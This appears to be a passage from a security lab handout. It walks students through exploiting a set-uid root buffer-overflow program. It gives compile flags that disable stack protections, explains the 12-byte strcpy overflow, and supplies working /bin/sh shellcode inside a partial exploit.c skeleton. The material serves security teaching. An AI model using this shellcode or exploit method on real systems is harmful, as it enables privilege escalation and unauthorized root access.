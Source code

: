 \begin{verbatim}
  $ sudo su
  # gcc -m32 -o stack -z execstack -fno-stack-protector stack.c
  # chmod 4755 stack
  # exit  
\end{verbatim}



The above program has a buffer overflow vulnerability. It first 
reads an input from a file called ``badfile'', and then passes this
input to another buffer in the function {\tt bof()}. The 
original input can have a maximum length of 517 bytes, but the buffer
in {\tt bof()} has only 12 bytes long. Because {\tt strcpy()} does not check
boundaries, buffer overflow will occur.
Since this program is a set-root-uid program, if a normal user can exploit
this buffer overflow vulnerability, the normal user might be 
able to get a root shell.
It should be noted that 
the program gets its input from a file called ``badfile''. This file
is under users' control. Now, our objective is to 
create the contents for ``badfile'', such that when the vulnerable program
copies the contents into its buffer, a root shell can be spawned.



\subsection{Task 1: Exploiting the Vulnerability} 

We provide you with a partially completed exploit code called 
``exploit.c''. The goal of this code is to construct contents 
for ``badfile''. In this code, the shellcode is given to you. 
You need to develop the rest. 


\begin{verbatim}
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

\end{verbatim}


